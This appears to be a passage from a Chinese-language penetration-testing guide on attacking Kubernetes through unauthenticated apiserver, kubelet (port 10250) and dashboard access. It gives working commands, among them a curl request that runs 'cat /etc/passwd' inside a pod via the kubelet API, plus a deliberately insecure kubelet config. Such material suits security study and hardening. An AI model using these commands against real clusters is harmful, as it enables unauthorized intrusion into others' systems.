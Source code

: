 远程利用

`kubectl -s ip:8080 get node`

对于针对 Kubernetes 集群的攻击来说，获取 admin kubeconfig 和 apiserver 所在的 master node 权限基本上就是获取主机权限路程的终点。 

至于如何通过 apiserver 进行持续渗透和控制，参考 kubectl 的官方文档是最好的：

[https://Kubernetes.io/docs/reference/generated/kubectl/kubectl-commands](https://kubernetes.io/docs/reference/generated/kubectl/kubectl-commands)

## kubelet

kubelet存在于每一个node中，端口10250，kubelet 与 apiserver 进行通信的主要端口，kubelet通过该端口能知道自己该处理的任务，但在开启了接受匿名请求的情况下，不带鉴权信息的请求也可以使用 10250 提供的能力

开启匿名请求

```
/var/lib/kubelet/config.yml
	
authentication:
	anonymous:
	  enabled: true
	webhook:
	  cacheTTL: 0s
	  enabled: true
 x509:
	  clientCAFile: /etc/kubernetes/pki/ca.crt
 authorization:
	  mode: AlwaysAllow
	
	
systemctl restart kubelet
```

然后在攻击机器执行如下进行攻击

```
#获取pod信息
https://172.16.144.130:10250/pods
# 路径为metadata:name,namespace,spec:container:name
curl https://172.16.144.130:10250/run/kube-system/kube-proxy-fmjrk/kube-proxy -k -d "cmd=cat /etc/passwd"
```

可以根据容器逃逸知识,比如`securityContext`、`volumes`，快速过滤出相应的 高权限可逃逸POD 进行控制

## dashboard

感觉比较鸡肋

在 dashboard 中默认是存在鉴权机制的，用户可以通过 kubeconfig 或者 Token 两种方式登录，当用户开启了 enable-skip-login 时可以在登录界面点击 Skip 跳过登录进入 dashboard，

但此时登陆用的账户是Kubernetes-dashboard 这个 ServiceAccount，默认是没有操作集群的权限的（k8s用的RBAC，cluster-admin权限最高）
